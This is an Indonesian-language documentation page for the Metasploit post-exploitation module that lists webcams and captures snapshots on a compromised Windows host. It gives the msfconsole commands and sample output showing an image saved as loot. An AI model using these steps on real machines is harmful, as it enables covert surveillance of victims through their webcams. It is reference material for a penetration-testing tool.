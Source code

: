 # webcam

Modul ini memungkinkan pengguna untuk mendeteksi webcam yang terpasang (dengan aksi `LIST`) atau mengambil `snapshot` (dengan aksi `SNAPSHOT`).

## Penulis
- sinn3r sinn3r@metasploit.com

## Platform
- `Windows`
  
## Cara Penggunaan di Metasploit

```
use post/windows/manage/webcam
set INDEX <ID>
set QUALITY 100
set SESSION <ID>
set VERBOSE 1
snapshot
```

Hasil output-nya seperti ini:

```
[*] 192.168.1.52 - Starting...
[*] 192.168.1.52 - Got frame
[+] 192.168.1.52 - Snapshot saved: /root/.msf4/loot/20250517001711_default_192.168.1.52_192.168.1.52.web_394465.jpg
[*] 192.168.1.52 - Stopped
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/manage/webcam/)
